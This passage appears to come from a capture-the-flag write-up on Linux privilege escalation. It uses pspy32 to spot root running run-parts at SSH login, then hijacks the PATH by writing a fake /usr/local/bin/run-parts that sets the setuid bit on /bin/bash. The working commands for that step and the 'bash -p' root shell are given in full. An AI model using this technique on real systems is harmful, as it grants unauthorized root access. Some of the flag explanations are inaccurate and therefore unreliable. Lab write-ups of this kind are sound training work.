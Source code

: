 By running `pspy32`, I was able to observe **root-level** processes and scripts executed periodically upon *SSH* login. This information is crucial for identifying potential privilege escalation paths, such as writable scripts or misconfigured scheduled tasks that could be exploited to gain root access. So the line: `CMD: UID=0 PID=8530 | sshd: jkr [priv]` indicate with the *UID* 0 that the root user is checking the ssh athentication login attempt, at the same time is rename the content of the `/usr/bin/env` with a new *PATH*: **run-parts**.
####
The run-parts script called the MOTD (Message of the Day) in each login attempt. So if this script execute something like root at the moment to connect with *SSH*, we could insert a **simbolic link** or make a **path hijacking**. The script is created into the `/usr/local/bin`, so first we need to see if we have **write** permissions over this path:
####
```bash
ls -ld /usr/local/bin

drwx-wsr-x 2 root staff 20480 Apr 19 04:11 /usr/local/bin/
drwx-wsr-x 2 root staff 12288 Apr 19 04:11 /usr/local/sbin/
```
####
| Ls param | Description |
| ----- | ----- |
| -l | Long listing format |
| -d | List directores themselves, not their content |
####
Like we are in the **staff** group, we have write permissions here, so we will try make a **path hijacking**:
####
```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts

Final representation ->
echo -e '
    #!/bin/bash
    chmod u+s /bin/bash
' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
```
####
| Param | Description |
| ----- | ----- |
| -e | Interpret backslash escapes |
| -x | Execute the script |
| > | Save into or send to |
| u+s | Set the setuid bit permission |
| +x | Set execute permission |
####
How the script **run-parts** is execute at the moment to authenticate using *SSH* we need to kill the current session and connect again. After the execution of the script, we will have the **bash** with **setuid** bit set, so we will be able to run the bash as root:
####
```bash
/bin/bash -p
```
####
| Param | Description |
| ----- | ----- |
| -p | Run the shell with the **setuid** bit set |
####
